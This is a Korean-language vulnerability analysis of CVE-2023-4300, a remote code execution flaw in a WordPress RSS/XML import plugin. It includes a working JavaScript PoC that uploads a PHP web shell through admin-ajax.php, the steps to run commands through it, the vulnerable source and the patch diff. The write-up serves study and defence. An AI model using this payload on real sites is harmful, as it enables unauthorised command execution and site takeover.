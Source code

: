 ```yaml
---
title: "[CVE-2023-4300] 취약점 분석 보고서"
description: "Import XML and RSS Feeds에서 발생하는 RCE 취약점"
author: bde574786
date: 2024-11-18 10:51:00 +0900
categories: [One-Day 분석, WordPress]
tags: [WordPress, CVE, RCE]
---
```


<br>
## **1. Description**

CVE-2023-4300은 WordPress **Import XML and RSS Feeds** 플러그인에서 발생하는 **RCE 취약점**이다.  
업로드된 파일의 파일 확장자를 제대로 필터링하지 않아 공격자가 악성 PHP 파일을 업로드할 수 있고 결과적으로 권한이 없는 사용자가 WordPress 사이트에서 원격 코드를 실행할 수 있게 된다.

관련 플러그인 정보이다.

[Import XML and RSS Feeds Plugin — WordPress.com](https://wordpress.com/plugins/import-xml-feed)

<br>
## **2. Environment Setting**

### **2.1 Affected Version**

- PHP < 8.0
- Import XML and RSS Feeds < 2.1.4

> 본 분석은 XAMPP 7.4.29와 PHP 7.4.29가 포함된 환경에서 진행되었으며 해당 버전의 XAMPP는 [여기](https://sourceforge.net/projects/xampp/files/XAMPP%20Windows/7.4.29/)서 다운로드 할 수 있다. WordPress 버전은 분석에 영향을 미치지 않으므로, 설치 과정에 대한 자세한 설명은 생략한다.
> 

WordPress 플러그인 Import XML and RSS Feeds 2.1.3 버전으로 설치하고 활성화 한다.
플러그인을 활성화하면 좌측 설정 탭에서 Import Feed  항목을 확인할 수 있다.
![image.png](assets/posts/one-day/2024-11-18/img-001.png)

<br>
## **3. PoC**

해당 CVE의 PoC를 트리거하기 위해서는 관리자의 권한이 필요하다.

**3.1 관리자 권한으로 플러그인 경로 접근**

![image.png](assets/posts/one-day/2024-11-18/img-002.png)

**3.2 브라우저 콘솔을 열어 PHP 웹 쉘 파일 업로드**

```jsx
await fetch('/wordpress/wp-admin/admin-ajax.php', {
    credentials: 'include',
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: `action=moove_save_import_template&type=upload&extension=php&file=<?php+system($_GET['cmd']);?>&form_data[post_title]=RCE&nonce=${document.querySelector('input[name=moove_xml_admin_nonce]').value}`
})
```

<br>
파일 업로드 취약점이 있기 때문에 PHP 파일이 정상적으로 업로드되었음을 확인할 수 있다.

![image.png](assets/posts/one-day/2024-11-18/img-003.png)

**3.3 최근 생성한 템플릿 설정 페이지를 클릭**

Type the file URL 필드에서 업로드한 웹 쉘의 경로를 얻을 수 있다.

![image.png](assets/posts/one-day/2024-11-18/img-004.png)

**3.4 URL을 복사하여 웹 쉘 파일을 실행하고 cmd에 명령어를 전달**

RCE가 발생하면서 임의의 시스템 명령이 모두 실행되는 것을 알 수 있다.

![image.png](assets/posts/one-day/2024-11-18/img-005.png)

<br>
## **4. Analysis**

[CVE-2023-4300/import-xml-feed/moove-actions.php at main · bde574786/CVE-2023-4300](https://github.com/bde574786/CVE-2023-4300/blob/main/import-xml-feed/moove-actions.php)

1. 입력값 검증 부족
    - `moove_save_import_template` 함수에서 사용자가 전송한 file 데이터를 `sanitize_text_field`로 확장자 검증을 하고 있다.
    - `sanitize_text_field`는 HTML 태그나 특수 문자를 제거하지만, 확장자 형식의 유효성 검증에는 적합하지 않아 php와 같은 실행 가능한 파일 확장자를 업로드 할 수 있다.
        
        ```php
        if ( $_POST && is_array( $_POST ) ) :
        				$type = sanitize_text_field( $_POST['type'] );
        				$extension = sanitize_text_field( $_POST['extension'] );
        				$filename = uniqid( strtotime() );
        				if ( $type === 'upload' ) :
        					$xml = wp_unslash( $_POST['file'] );
        					$filename = $filename . "." . $extension;
        					$target_dir = dirname( __FILE__ ) . "/uploads/" . $filename;
        					file_put_contents( $target_dir, $xml, FILE_APPEND | LOCK_EX );
        ```
        

2. 메타데이터에 외부 접근 가능한 URL 저장
    - `moove_save_import_template` 함수에서 `plugins_url`으로 url을 생성하고 있다.
    - `filename` 변수는 `plugins_url` 함수를 통해 디렉토리 내의 업로드된 파일에 접근할 수 있는 전체 url이 저장된다.
    - `filename`은 ‘import_xml_url’이라는 키 이름으로 특정 게시물의 메타 데이터로 저장된다.
        
        ```php
        $filename = plugins_url( basename( dirname( __FILE__ ) ) ) . '/uploads/' . $filename;
        add_post_meta( $post_id, 'import_xml_url', $filename );
        ```
        
    
3. 파일 저장 경로 공개
    - 특정 게시물의 메타 데이터는 `template_view.php` 파일에서 사용자에게 보여진다.
    - 해당 메타데이터에 저장된 url을 통해 업로드한 파일에 접근이 가능했고, 결과적으로 RCE가 가능했다.
        
        ```php
        'feedurl' => get_post_meta( $template_id, 'import_xml_url', true ),
        ```
        
    
<br>
## **5. Patch Diff**

WordPress 플러그인들은 GitHub 대신 Trac과 Subversion(SVN)을 통해 관리되는 경우가 많으므로 svn 명령어를 사용하여 Trac의 코드 변경사항을 확인할 수 있다.

```bash
svn checkout https://plugins.svn.wordpress.org/import-xml-feed/tags/2.1.3
svn checkout https://plugins.svn.wordpress.org/import-xml-feed/tags/2.1.4
```

<br>
임시 디렉토리에 각 버전을 체크아웃한 후 확인한 변경 사항은 다음과 같다.

[Version 2.1.4 · bde574786/CVE-2023-4300@7205511](https://github.com/bde574786/CVE-2023-4300/commit/72055117358d184917b23c249435d35939817a77#diff-e0915d20b47f643113612da18cc245eac202485dd193731b6417df51b01ee214)

1. 권한 변경
    - moove_save_import_template 및 moove_delete_import_template 함수에서 기존의 edits_posts 권한이 manage_options 권한으로 변경
    - manage_options 권한은 edit_posts 보다 높은 권한이며 [Roles and Capabilities 문서](https://wordpress.org/documentation/article/roles-and-capabilities/)에서는 mange_options가 관리자 역할에게만 할당되는 고급 권한임을 명시하고 있음
2. 파일 확장자 허용 목록 추가
    - allowed_extensions 필터가 추가되어 XML과 RSS 확장자만 허용되도록 제한
